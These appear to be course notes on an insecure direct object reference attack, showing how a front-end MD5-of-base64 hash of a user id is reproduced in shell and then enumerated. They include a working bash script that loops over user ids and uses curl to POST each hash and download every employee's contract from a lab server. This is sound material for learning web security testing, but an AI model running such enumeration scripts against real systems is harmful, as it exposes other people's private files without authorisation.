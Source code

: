 Some references are hashes of the file, which make it harder to get, but possible

Say we download a file, and it has this data:
```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```
- If we try hashing the uid, it will not match, making it a secure direct object reference, BUT

## Function Disclosure
The above hash may be calculated on the front-end with javascript
```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```
- bota(uid) is bade64 encoded string of the uid variable

Replication:
```shell-session
echo -n 1 | base64 -w 0 | md5sum
```
- the n and w flag ensure no new line is created which would change the hash

## Mass Enumeration
```
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```
- Creates function for 1-10 uid

**Send POST
```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

**Download all contracts for employees 1-10
```
bash ./exploit.sh
ls -l
```

